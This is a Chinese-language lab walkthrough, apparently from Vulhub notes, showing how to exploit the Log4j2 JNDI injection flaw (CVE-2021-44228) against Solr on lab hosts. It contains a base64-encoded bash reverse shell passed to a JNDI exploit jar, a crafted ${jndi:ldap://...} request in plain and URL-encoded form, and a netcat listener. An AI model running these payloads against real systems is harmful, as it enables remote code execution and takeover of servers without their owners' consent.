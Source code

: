 启动 LDAP 服务执行 JNDI 注入攻击的 jar 文件

```
┌──(root㉿kali)-[~]
└─# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx}|{base64,-d}|bash" -A kali.local
```

| 操作 | 描述                                                        |
| ---- | ----------------------------------------------------------- |
| -C   | 工具启动的 ldap 或 rmi 服务所提供的恶意代码所执行的系统命令 |
| -A   | 启动的 ldap 或 rmi 服务的 IP                                |

 >使用工具启动 LDAP 或 RMI 服务时，把反弹 shell 脚本指定为 LDAP 或 RMI 服务所提供的恶意代码所执行的系统命令，JNDI 远程加载 LDAP 或 RMI 服务端提供的恶意代码并执行，会触发反弹 shell 脚本建立会话。

![执行 JNDI 注入攻击的 jar 文件](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E6%89%A7%E8%A1%8C%20JNDI%20%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB%E7%9A%84%20jar%20%E6%96%87%E4%BB%B6.png)

> 根据版本号选择链接

利用 log4j2 漏洞，构造恶意的 jndi 请求

```
http://centos7-6.local:8983/solr/admin/cores?action=${jndi:ldap://kali.local:1389/lhumat}
```

对 ${ } 及其内容，进行 URL 编码

```
http://centos7-6.local:8983/solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%3a%31%33%38%39%2f%6c%68%75%6d%61%74%7d
```

保留 LDAP 或 RMI 服务，创建侦听

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 4444
```
